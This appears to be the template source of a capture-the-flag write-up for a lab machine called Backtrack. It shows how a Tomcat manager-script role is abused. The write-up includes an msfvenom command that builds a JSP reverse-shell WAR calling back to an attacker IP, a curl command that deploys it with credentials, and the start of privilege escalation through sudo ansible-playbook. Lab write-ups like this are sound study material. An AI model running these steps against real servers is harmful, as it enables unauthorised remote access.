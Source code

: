 {{image("../../static/writeups/backtrack/images/000002.jpg")}}

{{text("Unfortunately, we lack the necessary permissions to access the GUI due to our <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>manager-script</code> role.")}}

{{text("However, we do have some permissions, so I searched for ways to exploit this role and found the following article.")}}

{{link("https://medium.com/@cyb0rgs/exploiting-apache-tomcat-manager-script-role-974e4307cd00", "https://miro.medium.com/v2/5d8de952517e8160e40ef9841c781cdc14a5db313057fa3c3de41c6f5b494b19", "Exploiting Apache Tomcat manager-script role")}}

{{text("Let's use <strong>msfvenom</strong> to generate a payload with a reverse shell.")}}

{{console("msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.4.147 LPORT=4445 -f war -o shell.war", "Payload size: 1101 bytes
Final size of war file: 1101 bytes
Saved as: shell.war")}}

{{text("Now, we should be able to upload it to the web server.")}}

{{console("curl -v -u tomcat:[REDACTED] --upload-file pwn.war 'http://10.10.156.56:8080/manager/text/deploy?path=/foo&update=true'", "Trying 10.10.156.56:8080...
* Connected to 10.10.156.56 (10.10.156.56) port 8080
* using HTTP/1.x
* Server auth using Basic with user 'tomcat'
> PUT /manager/text/deploy?path=/foo&update=true HTTP/1.1
> Host: 10.10.156.56:8080
> Authorization: Basic dG9tY2F0Ok9QeDUyazUzRDhPa1RacHg0ZnI=
> User-Agent: curl/8.10.1
> Accept: */*
> Content-Length: 1101
> 
* upload completely sent off: 1101 bytes
...")}}

{{text("After setting up a listener and navigating to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://10.10.156.56:8080/foo</code>, we should receive a reverse shell.")}}

{{text("After setting up a listener, and going to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://10.10.156.56:8080/foo</code>, we should get back a reverse shell.")}}

{{text("Going to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>/opt/tomcat</code> allows us to view our first flag.")}}

{{image("../../static/writeups/backtrack/images/000003.jpg")}}

{{header("Shell as wilbur", "shell-as-wilbur")}}

{{text("While looking for privilege escalation vectors, we discover this.")}}

{{console("sudo -l", "Matching Defaults entries for tomcat on Backtrack:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on Backtrack:
    (wilbur) NOPASSWD: /usr/bin/ansible-playbook /opt/test_playbooks/*.yml")}}
